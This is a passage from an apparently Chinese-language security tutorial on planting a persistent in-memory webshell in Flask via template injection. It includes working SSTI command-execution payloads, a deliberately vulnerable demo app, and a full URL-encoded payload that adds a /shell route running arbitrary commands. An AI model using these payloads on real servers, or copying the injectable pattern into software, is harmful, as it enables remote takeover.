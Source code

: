 add\_url\_rule 需要三个参数：

-   URL：和装饰器 `app.route()` 的第一个参数一样，必须以 `/` 开始。
-   endpoint：就是在使用 `url_for()` 进行跳转的时候，这个里面传入的第一个参数就是这个 endpoint 对应的值。这个值也可以不指定，默认值为函数名。
-   view\_func：只需要写方法名（也可以为匿名参数），如果使用方法名不要加括号，加括号表示将函数的返回值传给了 view\_func 参数。

#### [](#212-flask-context)2.1.2 flask context

想实现内存 webshell，关键点在于 `view_func` 。`view_func` 可以采用匿名函数定义逻辑，该方法要实现捕获参数值、执行命令、响应。

Flask 的工作原理：当一个请求进入 Flask，首先会实例化一个 Request Context，这个上下文封装了请求的信息在 Request 中，并将这个上下文放入到栈 `_request_ctx_stack` 的结构中，也就是说获取当前的请求上下文等同于获取 `_request_ctx_stack` 的栈顶元素 `_request_ctx_stack.top` 。

#### [](#213-flask-%E5%86%85%E7%BD%AE%E5%87%BD%E6%95%B0)2.1.3 flask 内置函数

通过 `{{...}}` 可以执行表达式，但是命名空间是受限的，没有 `builtins`，所以 `eval`、`popen` 这些函数是不能使用的。但是可以通过任意一个函数的 `func_globals` 而得到其的命名空间，而得到 `builtins`。

Flask 内置了两个函数 `url_for` 和 `get_flashed_messages`。也就是构造命令执行，可以使用：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```python<br>{{url_for.__globals__['__builtins__'].__import__('os').system('ls')}}<br><br>{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}<br>``` |

### [](#22-%E5%AE%9E%E7%8E%B0)2.2 实现

以下面的 Demo 代码为例：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```python<br>from flask import Flask, request<br>from flask import render_template_string<br>app = Flask(__name__)<br><br>@app.route('/')<br>def hello_world():<br>    return 'Hello World'<br><br><br>@app.route('/test',methods=['GET', 'POST'])<br>def test():<br>    template = '''<br>        <div class="center-content error"><br>        <h1>Oops! That page doesn't exist.</h1><br>        <h3>%s</h3><br>        </div><br>    ''' %(request.values.get('param'))<br><br>    return render_template_string(template)<br><br>if __name__ == '__main__':<br>    app.run(port=8000)<br>``` |

将 payload 拆解开：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```python<br>url_for.__globals__['__builtins__']['eval'](<br>	"app.add_url_rule(<br>		'/shell', <br>		'shell', <br>		lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()<br>		)<br>	",<br>	{<br>		'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],<br>		'app':url_for.__globals__['current_app']<br>	}<br>)<br>``` |

lambda 即匿名函数，payload 中 `add_url_rule()` 函数的第三个参数定义了一个 lambda 匿名函数，其中通过 os 库的 popen() 函数执行从 Web 请求中获取的 `cmd` 参数值并返回结果，其中该参数值默认为 `whoami`。

eval() 方法的语法：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```python<br>eval(expression[, globals[, locals]])<br>``` |

globals - 变量作用域，全局命名空间，如果被提供，则必须是一个字典对象。指定全局变量。

最终的 URL：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>http://IP:8000/param?param={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}<br>``` |
